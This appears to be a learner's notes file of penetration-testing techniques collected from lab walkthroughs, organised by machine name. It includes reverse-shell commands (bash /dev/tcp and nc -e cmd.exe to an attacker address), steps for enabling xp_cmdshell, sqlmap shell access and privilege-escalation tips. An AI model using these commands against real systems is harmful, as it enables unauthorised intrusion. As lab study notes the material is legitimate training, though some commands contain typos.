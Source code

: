 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`

# Vaccine
Use `zip2john` to brute force attack password protected Zip files

Use www.cractstation.net for rainbow tables for known passwords

## SQL
- If using `sqlmap` and attacking a postgreSQL DB, use `--os-shell` to attempt to get shell
- If you have OS Shell, run `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'` to get reverse shell (requires `nc` listener)

# Shield
- `gobuster` is an alternative to brute force open directories for a web app
- Can use `wp_admin_shell_upload` to get a meterpreter shell
- Upload the `nc.exe` executable and then execute it with `execute -f nc.exe -a "-e cmd.exe IP_ADDR LIST_PORT"`
- `JuicyPotato` to escalate privs

# Pathfinder
- `masscan` to determine open ports faster
- `bloodhound python` generates the files necessary to ingest into the `bloodhound` app
- `GetChangesAll` privileges within a domain can request replication data from a DC aka collect user hashes
- If Kerberos pre-auth is disabled, it's vulnerable to ASREPRoasting (https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)

# Included
- Check with `udp` scan for nmap if nothing too fruitful, can show tftp (port 69/udp)
- Vulnerable to directory traversal
- Pentest Monkey Reverse Shell Script: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- LXD Group = high privileged linux Group, which can be used to escalate to root

# Markup - on this one

# Guard

# Base